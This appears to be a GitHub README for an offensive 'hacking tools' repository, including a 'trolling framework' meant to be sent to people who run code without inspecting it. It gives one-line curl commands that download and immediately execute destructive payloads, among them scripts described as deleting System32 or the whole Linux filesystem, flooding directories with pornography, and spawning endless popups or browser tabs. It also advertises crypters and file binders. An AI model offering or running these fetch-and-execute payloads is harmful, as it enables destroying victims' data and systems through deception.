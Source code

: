 # Hacking tools
#### Penetration testing and ethical hacking toolkit.

##### 🛡 Exploitation - various archived CVE exploits

##### 🔑 Cryptography - encryption and decryption tools, cipher recognizing tools

##### 🕶 Anonymizing - proxy scrapers, tor scripts and openvpn configs

##### ⚙ Social engineering - forked social engineering framework, some other handy tools 

##### 💻 Hardware hacking - tutorials how-to do stuff like bad usb

##### 🗃 File manipulation - file binders, crypters and much more .net and others

##### 🛠 Reverse engineering - forked popular reverse engineering frameworks and links to professional courses

<a href="https://ibb.co/q5QLKhT"><img src="https://i.ibb.co/X8Rf16c/ezgif-com-gif-maker-1.gif" alt="ezgif-com-gif-maker-1" border="0"></a>
Psst, scroll down.

## Trolling framework
Build to make fun off script kiddies that will execute any code you send them without inspection, use for fun but do not harm.
These scripts are really poorly coded, but friend gave me 24 hours so Im trying to make as much as possible, expect improvement in the future.
This little 'project' was made because I wanted to excercise in as many languages as possible.

### Windows platform
#### 1 (C#) - Blank screen that you can remember from Async rat, I've made own and it doesnt break your pc when you restart it
```curl -sL -o script.exe & script.exe```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL -o script.exe & script.exe```
#### 5 (Golang) - Classic infinite messagebox with 'You have been hacked!' message
```curl -sL -o script.exe & script.exe```
#### 6 (Batch) - Deleting Sys32 😀
```curl -sL -o script.bat & script.bat```
### Linux platform
#### 2 (Node.js) - Downloads p0rn in every available directory
```curl -sL -o script.js; node script.js```
#### 3 (Bash) - rickrolling while deleting whole filesystem, use when escaping feds, death to whoever launches this without looking at the code 😂
```curl -sL -o script; chmod+x script; ./script```
#### 4 (Python) - while True: webbrowser.open('https://pornhub.com'), with 4 threads it was able to break pc, lowered to 2 threads
```curl -sL -o script.bin; chmod+x script.bin; ./script.bin```
#### 7 (Java) - Blank screen, coming soon

